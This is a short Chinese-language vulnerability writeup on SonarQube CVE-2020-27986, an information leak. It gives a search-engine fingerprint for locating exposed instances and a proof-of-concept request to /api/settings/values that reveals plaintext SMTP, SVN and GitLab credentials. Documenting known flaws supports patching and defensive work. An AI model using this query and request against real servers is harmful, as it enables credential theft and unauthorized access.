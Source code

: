# 

# SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

```
SonarQube
```

## 网络测绘

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下

![](./images/202202101933673.png)



漏洞POC



```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```



![](./images/202202101933276.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息



![](./images/202202101934123.png)



## 

